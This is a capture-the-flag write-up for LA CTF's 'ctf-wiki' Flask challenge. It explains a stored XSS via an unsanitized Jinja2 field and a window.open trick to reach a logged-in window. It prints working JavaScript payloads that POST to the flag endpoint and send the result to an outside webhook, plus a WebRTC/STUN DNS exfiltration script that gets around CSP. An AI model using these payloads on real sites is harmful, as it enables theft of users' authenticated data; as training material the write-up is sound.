






# **ctf-wiki | 38 solves**
I am such a huge fan of CTF players that I decided to create a wiki with some of my favorites! Hopefully, none of them hack it. ;D

[ctf-wiki.chall.lac.tf](ctf-wiki.chall.lac.tf)

## **Description**
We are given a url, an Admin bot link, and the source code for the main page. The website is a Flask application that lets you add a decription of a CTF player. Once we fill in the fields, we get back a note created with a specific UUID that can later be referenced.



Looking at the source code, we see two main endpoints: `/edit`, and `/view`. However if when we are logged in, and we try to visit `/view`, we are instantly redirected to `/edit`. We can see this implemented in the source:

```py
@app.get("/view/<pid>")
def page(pid):
    if session.get("username") is not None and session.get("password") is not None:
        return redirect("/edit/{}".format(pid))
```

Which explicitly redirects us to the `edit` endpoint. 

Looking around the source code more, we can see where the flag is stored.
```py
@app.post("/flag")
def flag():
    adminpw = os.environ.get("ADMINPW") or "admin"
    if session.get("password") != adminpw:
        return redirect("/login?error=" + urllib.parse.quote_plus("Not the admin."))

    flag = os.environ.get("FLAG") or "lactf{test-flag}"
    return flag, 200
```

For this, we need to make a post request to `/flag`, with an account using the correct admin password. Since we have an Admin Bot for this challenge as well, its clear now that we need some sort of XSS to make the admin request this flag for us, and then we can exfiltrate it to a server we control.

And looking at the template for `view.html`, we can see exactly where this XSS is:
```html
<div class="ctfer-info">{{ description | safe }}</div>
```

Which in Jinja2 templates will not sanitize the input placed there, meaning we can put arbitrary HTML and JS in the description. 
Finally, we can see a CSP is enforced on the pages with a valid session.

```py
@app.after_request
def apply_csp(response):
    if session.get("username") is not None and session.get("password") is not None:
        response.headers[
            "Content-Security-Policy"
        ] = "default-src 'self'; img-src *; font-src https://fonts.gstatic.com https://fonts.googleapis.com; style-src 'self' https://fonts.googleapis.com"
    return response

```
The `default-src=self` will be a fallback for CSP directives that were not specified in this list, so when exfiltrating we will additionally need to take this into consideration.

## **Solution**
The base idea of the challenge will utilize the fact that if the ctf-wiki page is embedded in an iframe on an attacker controlled page, that frame will not send session cookies. Meaning if we can get the Admin to visit our page, and embed the `/view` endpoint, it will not send the admin session. However, that iframe can create a window using `window.open`, and the window it creates will send the cookies! Additionally since these are the same origin, the payload in `/view` will be able to access the window object of the cookie page, and therefore execute JS!

Now from here we can make the fetch request, but we need to somehow send this to our domain. 

### XSS on window with cookies
To get a simple POC, we can first create a note that creates a new window, then executes some JS inside that window. I also created this helper script to change the payload on my page quickly.

```py
import requests
from base64 import b64encode

cookies = {
    'session': 'eyJwYXNzd29yZCI6IjEyMzQiLCJ1c2VybmFtZSI6ImFoaCJ9.ZdLx0w.E2vT2k0HzBa_iXbhdqHgGiR-oxg',
}

payload = f"""
w = window.open("https://ctf-wiki.chall.lac.tf/");
w.alert(1);
""".strip()

data = {
    'id': 'd74c05271ee7f058e376451a59086650',
    'name': 'asdf',
    'image': 'asdf',
    'team': 'asdf',
    'specialty': 'asdf',
    'website': 'asdf',
    'description': f'',
}

response = requests.post(
    'https://ctf-wiki.chall.lac.tf/edit/d74c05271ee7f058e376451a59086650',
    cookies=cookies,
    data=data,
)
```

Then we can host the `/view` endpoint for this page on our own domain in an iframe.
```html
<iframe id="thing" src="https://ctf-wiki.chall.lac.tf/view/d74c05271ee7f058e376451a59086650"></iframe>
```

When we visit our site now when logged in on ctf-wiki, (after enabling popups) we can see a page opened and an alert fired.

Whats important is that the alert is on the new page, and additionally, we can see that the new page will be logged in.


Now we can try adjusting our payload to make a fetch to `/flag`, and send it to a webhook.
```js
w = window.open("https://ctf-wiki.chall.lac.tf/");
w.onload = () => {
    w.fetch('https://ctf-wiki.chall.lac.tf/flag', {method: "POST"}).then(r => r.text()).then(r => {
        fetch("https://eo4r52sc1021bl8.m.pipedream.net?flag=" + btoa(r));
    });
}
```

Note here we are using `w.fetch` to fetch the `/flag` endpoint, but just fetch to send it back to us. This is since the CSP will prevent using `w.fetch` to make a request outside the `https://ctf-wiki.chall.lac.tf/` origin, however the cookieless page does not have that CSP restriction.

Finally, we send this to the Admin Bot, get our callback, and base64 decode to get the flag!


---
## **Flag**: `lactf{k4NT_k33P_4lL_my_F4v0r1T3_ctF3RS_S4m3_S1t3}`


## Additional Note: 
During the CTF, I honestly don't know why I didn't try this. I think I accidently tried `w.fetch` when exfiltrating (instead of just fetch), got the `connect-uri` CSP issue, and then just resorted to the option I knew on how to solve that which was using WebRTC. 

A reference for that payload is this very well written writeup for SekaiCTF GolfJail which used that same technique.
[https://blog.antoniusblock.net/posts/golfjail/](https://blog.antoniusblock.net/posts/golfjail/)

You can send the same request, but modifying the data to the request response, and collect the response in the DNS query.
This is the payload script I used during the CTF.
```py
innerpayload = """
window.onload = () => {
    fetch('https://ctf-wiki.chall.lac.tf/flag', {method: "POST"}).then(r => r.text()).then(r => {
        pc=new RTCPeerConnection({"iceServers":[{"urls":["stun:"+r.split("").map(x=>x.charCodeAt(0).toString(16)).join("").substr(0, 62)+"."+"zlamrbukykhbdngfjbuh29ofd2v5k39qo.oast.fun"]}]});
        pc.createOffer({offerToReceiveAudio:1}).then(o=>pc.setLocalDescription(o));
    })
}
""".strip()

payload = f"""
w = window.open("https://ctf-wiki.chall.lac.tf/");
w.eval(atob('{b64encode(innerpayload.encode()).decode()}'))
""".strip()
```

And you will get a response like this, which afterwards you can hex decode the subdomain to determine the flag!


But yeah there fetch from the cookieless CSPless page is alot more straightforward lol. In the words of the author himself:
